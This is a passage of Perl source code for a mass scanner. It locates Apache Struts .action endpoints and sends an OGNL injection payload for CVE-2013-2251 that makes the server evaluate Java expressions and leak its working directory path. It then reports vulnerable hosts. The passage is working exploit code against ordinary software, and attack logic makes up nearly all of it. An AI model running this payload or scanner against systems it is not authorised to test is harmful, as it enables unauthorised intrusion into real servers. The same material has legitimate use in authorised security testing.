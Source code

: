               }
              elsif ($sock =~ /(Location\: (.*)\n)/) {
                my $found = $2;
                $found =~ s/\n//g;
                $found =~ s/\r//g;
                if ($found =~ /^\/.*\.action$/) { outp("Valid path found to test4: $found",2);@paths=($found); $filter = 1;$type="auto"; }
                elsif ($found =~ /http/) {
                  #print "here:4\n";
                  my @split = split('/', $found);
                  my $eee = "";
                  foreach (3..$#split) { $eee = $eee."/".$split[$_]; }
                  if ($eee =~ /^\/.*\.action$/) { outp("$id Valid path found to test: $eee",2); @paths=($eee); $filter = 1;$type="auto"; }
                  else { outp("$id Debug Redirect Found#4: $eee",2); }
                }
                else { outp("$id Debug Redirect Found#3: $found",2); }
              }
              $socket->close();#print $sock."\n";
            }
          }

        }
         else { outp("$id SOCK: error",2);next; }
      }
      if (($filter == 1) or ($force)) {
        if ($force) { $type = "forced"; }
        outp("$id \"$type\" detected on: $_[0]:$port",2);
        outp("$id Now Checking for Struts..",2);
        foreach my $p (@paths) {
        if (!$ssl) { $socket= IO::Socket::INET->new(PeerAddr=>"$_[0]:$port",Proto=>'tcp',Timeout=>$timeout); }
        else { $socket= IO::Socket::SSL->new(PeerHost => "$_[0]",PeerPort => "$port",Timeout=>$timeout); }
        if ($socket) {
          $check = "GET $p";
          print $socket $check.$req;
          $sock = "";
          if (<$socket> =~ /200 OK/) {
            outp("$id Apache Struts Found! (path verified)",2);
            outp("$id Checking if Struts is Vuln.. (trying ". ( $#paths + 1) ." paths)",2);
            $socket->close();
            if (!$ssl) { $socket= IO::Socket::INET->new(PeerAddr=>"$_[0]:$port",Proto=>'tcp',Timeout=>$timeout); }
            else { $socket= IO::Socket::SSL->new(PeerHost => "$_[0]",PeerPort => "$port",Timeout=>$timeout); }
            if ($socket) {
              $check = "GET $p?redirect:%25{new%20java.io.File('.').getCanonicalPath().concat({3*8888})}";
              print $socket $check.$req;
              $sock = "";
              while (<$socket>) { $sock = $sock.$_; }
              if ($sock =~ /\:\/\/(.*)\[26664/) {
                my $match = "";
                my @split = split('/',$p);
                if ($split[1]) {
                  @split = split($split[1],$1);
                  if ($split[1]) { $match = $split[1]; }
                }
                if ($match =~ /\:/) { outp("$id Apache Struts Vuln Found (Windows: $match): $_[0]:$port $p (CVE: 2013-2251)",1); }
                elsif ($match) { outp("$id Apache Struts Vuln Found (Linux: $match): $_[0]:$port $p (CVE: 2013-2251)",1); }
                else { outp("$id Apache Struts Vuln Found (Linux: unknown_path): $_[0]:$port $p (CVE: 2013-2251)",1); }
              }
              #else { outp("$id Apache Struts Vuln Not Found!\n$sock",2); } #extra debug